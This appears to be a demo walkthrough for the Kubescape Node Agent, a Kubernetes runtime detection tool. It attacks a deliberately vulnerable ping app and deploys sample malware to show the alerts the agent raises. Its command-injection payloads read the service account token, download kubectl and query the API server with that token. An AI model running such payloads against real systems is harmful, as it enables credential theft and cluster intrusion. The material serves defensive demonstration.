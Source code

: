 # Node Agent Runtime Detection & Response Demo
This is a walkthrough of Node Agent Runtime Detection & Response capability, in this demo we will do the following:
1. Install Node Agent.
2. Deploy a sample web application and attack it.
3. Deploy fileless malware.
4. Deploy a container with malicious image that contains malwares.
5. See how Node Agent detects the attacks.

With this demo you will be able to see how Node Agent works and how it can be used to detect and prevent attacks.
To learn more about Node Agent, see [here](https://kubescape.io/docs/).

## Table of Contents

- [Installation](#installation)
- [Deploy Web Application](#deploy-web-application)
- [Attack Web Application](#attack-web-application)
- [Attack Fileless Malware](#attack-fileless-malware)
- [Attack Malicious Image](#attack-malicious-image)
- [Conclusion](#conclusion)


## Installation
To install Node Agent, you need to have a Kubernetes cluster up and running. In case you want to test it on your local machine you can use [Minikube](https://kubernetes.io/docs/tasks/tools/install-minikube/) or [Kind](https://kind.sigs.k8s.io/docs/user/quick-start/).

After you have a Kubernetes cluster up and running, you can install Node Agent by running the following commands:

```bash
git clone https://github.com/kubescape/node-agent.git && cd node-agent
# Assuming AlertManager is running in service  "alertmanager-operated" in namespace "monitoring"
helm repo add kubescape https://kubescape.github.io/helm-charts/ ; helm repo update ; helm upgrade --install kubescape kubescape/kubescape-operator -n kubescape --create-namespace --set clusterName=`kubectl config current-context` --set nodeAgent.config.alertManagerExporterUrls=alertmanager-operated.monitoring.svc.cluster.local:9093 --set nodeAgent.config.maxLearningPeriod=15m --set nodeAgent.config.learningPeriod=2m --set nodeAgent.config.updatePeriod=1m --set capabilities.runtimeDetection=enable --set alertCRD.installDefault=true --set alertCRD.scopeClustered=true
```

You should be getting alerts after the learning period ends. The learning period is the time Node Agent takes to learn the normal behavior of the cluster, during this period Node Agent will raise alerts only for malicious activities. After the learning period, Node Agent will raise alerts for both malicious and abnormal activities.

The learning period is configurable, you can change the values of `maxLearningPeriod`, `learningPeriod`, and `updatePeriod` in the helm chart. See [here](https://kubescape.io/docs/operator/relevancy/#enabling-relevancy) for more information.

Try `kubectl exec` on one of the Pods after the learning period to test out anomaly detection!

### Getting alerts

One of the ways to get alert from Node Agent is to connect it an AlertManager. If you don't have AlertManager running, you can install it by running the following commands:
```bash
helm repo add prometheus-community https://prometheus-community.github.io/helm-charts
helm repo update
helm install alertmanager prometheus-community/kube-prometheus-stack -n monitoring --create-namespace
```

By default, the Node Agent is exporting alerts to stdout, you can see the alerts by running the following command:
```bash
kubectl logs -n kubescape -l app=node-agent -f
```

In the above helm chart installation, we have connected Node Agent to AlertManager, you can see the alerts in AlertManager UI by going to `http://<node-ip>:9093`.

**Once you have Node Agent installed, let's deploy a sample web application and attack it.**

## Deploy Web Application

To deploy a sample web application, run the following commands:

```bash
chmod +x demo/general_attack/webapp/setup.sh
./demo/general_attack/webapp/setup.sh
```

This will deploy a sample web application and a service to expose it.
You can access the web application by using a web browser and going to `http://<node-ip>:8080`.
You should see the following page:
![Web Application](assets/webapp.png)

The application is a "Ping service", it allows the user to ping a host, and it will return the output of the ping command.
Let's try to ping `1.1.1.1` and see the output.

![Ping](assets/ping.png)

Once you have the web application up and running, let's attack it and see how Node Agent detects the attack.

## Attack Web Application

Our web application is deliberatly made vulnerable to a [command injection](https://owasp.org/www-community/attacks/Command_Injection) attack.

Behind the scenes, the application is taking the IP from the form as a string and concatenates it to a command. Since there is no proper input sanitization we can use this to run arbitrary commands on the web application container and get the output.

Let's try to execute the `ls` command on the web application container.

```bash
1.1.1.1;ls
```

Great! We can see the output of the `ls` command, but we can also see that Node Agent detected the attack and sent an alert to AlertManager.

![ls](assets/ls.png)

Navigate to AlertManager UI by going to `http://<node-ip>:9093` and you should see the following alert:
(You can also see the alert in the terminal where you ran `helm install`)
![AlertManager](assets/alertmanager.png)

We can see that Node Agent raised two alerts, one for the unexpected command execution and one for the unexpected file activity.
We can see the details of the alerts such as the command that was executed and the file that was accessed and on which workload.

Now, let's try to run a more malicious command, let's try to get the service account token.

```bash
1.1.1.1;cat /run/secrets/kubernetes.io/serviceaccount/token
```

We can see that Node Agent detected the attack and sent an alert to AlertManager.
![service accout token](assets/service-account-token.png)
Node Agent detected the attack because it has a rule that identifies access to the service account token.

Next, let's try to download kubectl into the container and run it to get the pods in the cluster.

Execute the following commands one by one:
```bash
# Get the architecture of the node
1.1.1.1;uname -m | sed 's/x86_64/amd64/g' | sed 's/aarch64/arm64/g'

# Download kubectl
1.1.1.1;curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/<node arch>/kubectl"

# Make kubectl executable
1.1.1.1;chmod +x kubectl

# Get the pods in the cluster
1.1.1.1;./kubectl --server https://kubernetes.default --insecure-skip-tls-verify --token $(cat /run/secrets/kubernetes.io/serviceaccount/token) get pods
```

You should see the following output:
![pods](assets/pods.png)

We can see that Node Agent detected the attack and sent an alert to AlertManager.
![kubectl](assets/kubectl.png)

Node Agent detected the attack because it has a rule that identifies kubernetes API server access from a container.

## Attack Fileless Malware
Let's deploy a fileless malware and see how Node Agent detects it.

To deploy the fileless malware, run the following commands:
This will deploy google's [demo-app](https://github.com/GoogleCloudPlatform/microservices-demo)
```bash
kubectl apply -f demo/fileless_exec/kubernetes-manifest.yaml
```
We have replaced one of the original images with a malicious image that runs a fileless malware.
Using the [ezuri crypter](https://github.com/guitmz/ezuri), we have encrypted the malware and embedded it in the image. (Don't worry, it doesn't run a real malicious malware 😉).

Let's see what has popped up in AlertManager.
![fileless malware](assets/fileless-malware.png)

We can see that Node Agent detected that an exec syscall was made from `/proc/self/fd/3` which is the file descriptor of the malware that resides in the container's memory.
This is a fileless malware, so we don't have any files to scan, but Node Agent still detected it.

## Attack Malicious Image
Let's deploy a container with malicious image that contains malwares such as [cryptominer](https://www.crowdstrike.com/blog/what-is-cryptomining/) and [webshell](https://owasp.org/www-community/attacks/Web_Shell).

We are going to be using [ruzickap malwares container](https://github.com/ruzickap/malware-cryptominer-container) to deploy a container with malwares.
To deploy the container, run the following command:
```bash
kubectl run malware-cryptominer --image=quay.io/petr_ruzicka/malware-cryptominer-container:2.0.2
```
Or, alternatively, you can build the image yourself by running the following commands:
```bash
docker build -t malware-cryptominer -f malwares_image/Containerfile .
docker tag malware-cryptominer quay.io/petr_ruzicka/malware-cryptominer-container:2.0.2
# If you are using minikube
minikube image load quay.io/petr_ruzicka/malware-cryptominer-container:2.0.2
# If you are using kind
kind load docker-image quay.io/petr_ruzicka/malware-cryptominer-container:2.0.2
```

Let's see what has popped up in AlertManager.
![malwares](assets/malwares.png)
We can see that Node Agent detected that the container is running a malicious image that contains malwares.
It also supplies the path to the malwares in the node's filesystem as well as the signatures of the malwares.
Node Agent uses [ClamAV](https://www.clamav.net/) to scan the images for malwares.
ClamAV is an open source antivirus engine for detecting trojans, viruses, malware & other malicious threats, it supports a wide range of signature languages including YARA and bytecode signatures.

Please note that Node Agent doesn't scan the images by default, you need to enable it by setting `capabilities.malwareDetection=enable` in the helm chart. See [here](https://kubescape.io/docs/) for more information.


## Conclusion
In this demo we saw how Node Agent can be used to detect and prevent attacks in Kubernetes.
We covered a few attacks, but Node Agent can detect many more attacks, see [here](https://kubescape.io/docs/) for the full list of supported rules and detection methods.
To learn more about Node Agent, see [here](../README.md).

If you have any questions, feel free to open an issue or contact us via [email](mailto:support@armosec.io) or [slack](https://cloud-native.slack.com/archives/C04EY3ZF9GE).

